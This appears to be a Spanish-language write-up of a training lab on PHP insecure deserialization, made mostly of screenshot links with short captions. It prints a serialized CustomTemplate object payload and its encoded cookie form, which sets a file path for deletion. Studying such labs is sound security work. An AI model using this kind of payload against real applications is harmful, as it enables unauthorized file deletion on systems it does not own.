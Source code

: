 ![[Pasted image 20220926184054.png]]

![[Pasted image 20220926184821.png]]

la sesion tiene una cookie:

![[Pasted image 20220926184943.png]]


verificando el source code:

![[Pasted image 20220926185131.png]]


tratando de acceder:

![[Pasted image 20220926185242.png]]

![[Pasted image 20220926185304.png]]

enviando esta traza al repeater:

![[Pasted image 20220926185411.png]]

agregando al final el caracter ~ por si hay algun archivo de backup en el filesystem:

![[Pasted image 20220926190150.png]]

la siguiente funcion hace uso de un magic method:

![[Pasted image 20220926190242.png]]


revisando la cookie de sesion:

![[Pasted image 20220926190323.png]]

sustituimos por este payload: 

![[Pasted image 20220926190502.png]]

O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3d%3d

envio la traza del archivo php con los cambios:

![[Pasted image 20220926190658.png]]

![[Pasted image 20220926190729.png]]
